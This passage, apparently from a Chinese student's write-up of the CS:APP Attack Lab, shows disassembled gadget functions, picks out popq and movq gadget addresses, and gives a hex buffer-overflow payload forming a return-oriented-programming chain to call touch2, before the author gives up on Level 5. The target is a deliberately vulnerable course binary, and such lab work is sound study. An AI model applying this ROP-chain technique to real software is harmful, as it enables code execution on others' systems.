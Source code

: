 ```assembly
  00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq
 
  00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```

从中我们可以得出`popq %rax`指令的地址为：`0x4019ab`，`movq %rax, %rdi`指令的地址为：`0x4019a2`

(2).构造字符串

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### 4.2. Level 5

>That may not seem signiﬁcantly more difﬁcult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase5 counts for only 5 points, which is not a true measure of the effort it will require. 

被劝退了/(ㄒoㄒ)/~~